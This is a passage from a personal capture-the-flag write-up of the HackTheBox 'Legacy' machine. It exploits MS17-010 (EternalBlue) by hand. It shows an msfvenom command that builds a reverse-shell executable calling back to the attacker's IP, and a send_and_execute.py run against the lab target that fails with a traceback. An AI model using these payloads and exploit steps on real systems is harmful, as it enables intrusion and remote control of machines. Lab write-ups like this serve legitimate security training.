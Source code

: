 ```bash

Computer               User name            Client Type       Opens Idle time

-------------------------------------------------------------------------------
\\10.10.16.4                                posix                 2 00:00:00    
\\127.0.0.1                                 Windows 2002 Serv     2 00:00:00    
The command completed successfully.
```

After trying a few things, I managed to add an Administrator user but that didn't really work out to anything, so I thought I'd try and get a better shell.

### manual exploitation

After several hours of python dependency hell, I looked up how people were exploiting an XP machine, manually, with these python2 scripts that are everywhere and came across this blog post: ["Exploiting MS17-010 without Metasploit (Win XP SP3)"](https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/)

And this was the first time seeing someone use the `send_and_execute.py` script, so I thought I'd give it a go.

:::tip send and execute

The basic idea with `send_and_execute.py` is using EternalBlue exploit to send a file to our target (e.g. a reverse shell executable), and then run it on the target e.g. if it's a reverse shell executable, it will call back to the LHOST we generated the shellcode with.

:::

I copied the following scripts to their own folder (clean workspace):

* `send_and_execute.py`
* `mysmb.py`
* `zzz_exploit.py` - in case this method bombs out as well lol.

I generate my reverse shell *.exe with: 

* `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe`

```bash
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: ms17-010.exe
```

Let's run it and see what happens:

```bash
┌──(rxhackk㉿kali)-[~/…/HTB/BOXES/LEGACY/working]-[tun0: 10.10.16.2]
└─$ ./send_and_execute.py 10.10.10.4 ms17-010.exe
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
Traceback (most recent call last):
  File "/home/kali/Documents/RxHack/HTB/BOXES/LEGACY/working/./send_and_execute.py", line 1077, in <module>
    exploit(target, port, pipe_name)
  File "/home/kali/Documents/RxHack/HTB/BOXES/LEGACY/working/./send_and_execute.py", line 839, in exploit
    if not info['method'](conn, pipe_name, info):
  File "/home/kali/Documents/RxHack/HTB/BOXES/LEGACY/working/./send_and_execute.py", line 641, in exploit_fish_barrel
```